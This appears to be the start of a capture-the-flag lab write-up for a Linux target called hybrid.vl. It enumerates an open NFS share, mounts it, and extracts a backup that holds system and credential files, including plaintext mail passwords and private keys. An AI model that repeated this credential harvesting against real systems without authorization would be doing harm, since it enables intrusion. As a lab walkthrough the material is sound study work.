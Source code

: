
# Linux
## Enumerate NFS (Port 2049)
Use showmount to see what NFS shares are publicly accessible.
```bash
┌──(kali㉿kali)-[~]
└─$ showmount -e 10.10.156.182
Export list for 10.10.156.182:
/opt/share *
```


We can now mount the NFS share and find a backup file.
```bash
┌──(kali㉿kali)-[~]
└─$ sudo mount -t nfs 10.10.156.182:/opt/share /tmp/share -o nolock


┌──(kali㉿kali)-[~]
└─$ ls /tmp/share
backup.tar.gz
```


In the TAR file we find the following.
```bash
┌──(kali㉿kali)-[/tmp/share]
└─$ tar -xvf backup.tar.gz 
etc/passwd
etc/sssd/sssd.conf
etc/dovecot/dovecot-users
etc/postfix/main.cf
opt/certs/hybrid.vl/fullchain.pem
opt/certs/hybrid.vl/privkey.pem
```


In the dovcecot-users file we find credentials.
```bash
─(kali㉿kali)-[/tmp/share/etc/dovecot]
└─$ cat dovecot-users 
admin@hybrid.vl:{plain}Duckling21
peter.turner@hybrid.vl:{plain}PeterIstToll!
```


## Enumerate HTTP (Port 80)
Site redirects to: `mail01.hybrid.vl`.
![Pasted image 20240713194732.png](/images/Pasted image 20240713194732.png){: .normal }


Modify hosts file.
```bash
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts | grep 10.10.156.182
10.10.156.182 mail01.hybrid.vl hybrid.vl
```
